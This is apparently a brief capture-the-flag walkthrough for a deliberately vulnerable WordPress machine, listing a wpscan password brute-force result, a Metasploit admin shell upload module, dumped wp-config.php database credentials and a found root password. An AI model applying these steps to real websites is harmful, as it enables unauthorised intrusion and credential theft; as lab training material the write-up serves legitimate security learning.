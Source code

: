     # wpscan bruteforce the password of wordpress user:

    [!] Valid Combinations Found:
    | Username: c0rrupt3d_brain, Password: 24992499

>> Then use metasploit module : exploit/unix/webapp/wp_admin_shell_upload

# PostExploitation Phase:

# wp-config.php file found:
    ->>
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'hackme_wp' );

    /** MySQL database username */
    define( 'DB_USER', 'root' );

    /** MySQL database password */
    define( 'DB_PASSWORD', '123' );

    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8' );

    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );

>> Nothing found in mysql databases.
>> in directory /home/root3r/ ".root_password_ssh.txt" file is found containing password of root.

# Root Password : willy26

# Proof.txt :

voila you have successfully pwned me :) !!!
:D

 

